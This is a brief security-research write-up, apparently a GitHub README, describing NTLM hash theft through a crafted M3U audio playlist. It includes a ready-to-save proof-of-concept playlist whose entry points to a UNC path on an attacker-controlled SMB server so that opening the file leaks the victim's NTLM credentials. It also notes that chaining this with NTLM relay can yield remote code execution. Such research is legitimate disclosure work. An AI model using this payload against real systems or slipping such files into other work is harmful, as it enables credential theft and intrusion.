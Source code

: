 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .


Tested on windows 7  “all player"

PoC :

#EXTM3U
#EXTINF:-1,leak_it_please
\\attacker_smb_server\xFolder

Save it as m3u extention.

Author : "Soufian El Hachmi"  a security researcher From Morocco 

